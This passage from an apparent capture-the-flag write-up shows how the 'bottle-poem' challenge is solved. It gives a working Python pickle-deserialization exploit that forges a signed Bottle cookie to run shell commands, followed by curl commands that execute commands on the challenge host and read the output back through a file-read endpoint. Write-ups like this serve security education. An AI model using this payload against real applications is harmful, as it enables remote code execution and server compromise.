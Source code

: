 No dice. The documentation for the `set_cookie` method used above mentions that
it can "store any pickle-able object". Python pickles can encode arbitrary
python values, and when used incorrectly (especially when decoding
attacker-controled values), it can lead to arbitrary code execution.

We can now start setting up for arbitrary command execution:[^pickle-rce-ref]

[^pickle-rce-ref]: Copied from https://gist.github.com/mgeeky/cbc7017986b2ec3e247aab0b01a9edcd

```
#!/usr/bin/env python3

from bottle import response
import sys

command = sys.argv[1]

class PickleRce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

response.set_cookie('name', {'name': 'admin', 'v': PickleRce()}, secret="Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu")
print(f'Cookie: {response.headerlist[1][1]}')

$ time curl http://bottle-poem.ctf.sekai.team/sign -H "$(./sign.py 'sleep 5')" -o /dev/null

real	0m5.492s
user	0m0.095s
sys	0m0.036s
```

It works! While we can't get our command outputs directly, we can redirect
outputs to some file in `/tmp` and read them back afterwards with the `/show`
endpoint.

```
$ curl http://bottle-poem.ctf.sekai.team/sign -H "$(./sign.py 'ls > /tmp/nevinevi')" -o /dev/null
$ curl http://bottle-poem.ctf.sekai.team/show?id=/tmp/nevinevi
app.py
config
poems
views
```

> there were multiple instances of this challenge running at any given time, so
> we had to repeat the read request multiple times in until it was routed to the
> same instance that we originally ran the command in.
>
> I assume you could also set up a proper reverse shell, but I didn't want to
> bother standing up infrastructure or opening ports on my end.

We now have the ability to execute arbitrary commands and read their outputs. We
can now explore the filesystem and obtain the flag.


[^wiki-cbc-length]: https://en.wikipedia.org/wiki/CBC-MAC#Security_with_fixed_and_variable-length_messages